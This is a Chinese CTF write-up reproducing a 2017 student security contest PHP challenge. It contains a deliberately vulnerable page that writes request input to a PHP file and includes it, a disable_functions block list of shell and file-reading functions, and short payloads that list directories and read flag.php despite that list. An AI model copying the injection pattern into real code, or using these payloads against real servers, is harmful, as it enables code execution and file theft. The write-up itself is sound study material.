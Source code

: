 ```yaml
---
title: 第十届全国大学生信息安全竞赛-PHP execise-简单复现
date: 2017-07-18 00:18:02
tags: CTF
---
```

### 0x00 环境搭建
原题代码改版：
<!--more-->
`index.php`文件
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <title>Examples</title>
        <meta name="description" content="">
        <meta name="keywords" content="">
        <link href="" rel="stylesheet">
    </head>
    <body>
        <div class="inner-cover">
            <h1 class="cover-heading">Welcome to PHP~ </h1>
            <p class="lead">PHP is the best laugage!</p>
            <form action="index.php" method="POST">
                Name: <input type="text" name="code"><br>
                <input type="submit">
            </form>
        </div>
        <div class="col-md-12">
            <br><hr><hr><br>
            <p class="lead">
                <?php
                    if (isset($_REQUEST['code'])) {
                $code= "<?php ".$_REQUEST['code']." ?>";
                file_put_contents("tmp.php", $code);
                echo "OUTCOME: \n";
                include "tmp.php";
                }
                ?>
            </p>
        </div>
    </body>
</html>
```
在相同目录下建立`tmp.php`和`flag.php`文件

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718002550.jpg)

还要在PHP.INI，找到这行：

`disable_functions =`

在后面加上禁用的函数：
```
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir, 
```



### 0x01 解题思路
主要是列目录，读文件。
看了表哥们的writeup，有两种方法列目录:

1)`foreach (glob("./*") as $filename) {  echo $filename."<br>"; }`

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718002551.jpg)

2)`print_r( scandir("./"));`

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718004347.jpg)

读文件有三种方法，但应该不止。

1)`copy('flag.php','flag.txt');`

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718005259.jpg)

2)`highlight_file("flag.php");`

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718005360.jpg)

3)`show_source("flag.php");`

![](http://ok508kqsu.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20170718005461.jpg)

### 0x02 总结

个人觉得这题还是有点意思，比赛的时候没有解出来，主要是PHP功底太过弱鸡。。
写出来主要是防CTF中的各种套路，为下次做准备。